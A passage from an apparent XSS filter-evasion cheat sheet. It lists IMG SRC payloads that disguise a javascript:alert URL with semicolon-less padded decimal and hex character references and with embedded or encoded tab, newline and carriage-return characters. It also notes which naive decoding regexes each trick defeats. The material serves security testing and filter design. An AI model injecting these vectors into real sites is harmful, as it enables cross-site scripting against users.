 #### Decimal HTML character references without trailing semicolons

This is often effective in XSS that attempts to look for "&#XX;", since most people don't know about padding - up to 7 numeric characters total. This is also useful against people who decode against strings like `$tmp_string =~ s/.*\&#(\d+);.*/$1/;` which incorrectly assumes a semicolon is required to terminate a html encoded string (I've seen this in the wild):

~~~
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
~~~




#### Hexadecimal HTML character references without trailing semicolons

This is also a viable XSS attack against the above string `$tmp_string =~ s/.*\&#(\d+);.*/$1/;` which assumes that there is a numeric character following the pound symbol - which is not true with hex HTML characters). 

~~~
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
~~~


### Embedded tab

~~~
<IMG SRC="jav	ascript:alert('XSS');">
~~~

#### Embedded Encoded tab

~~~
<IMG SRC="jav&#x09;ascript:alert('XSS');">
~~~


### Embedded newline to break up XSS

Some websites claim that any of the chars 09-13 (decimal) will work for this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. See the ascii chart for more details. The following four XSS examples illustrate this vector: 

~~~
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
~~~

### Embedded carriage return to break up XSS

~~~
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
~~~
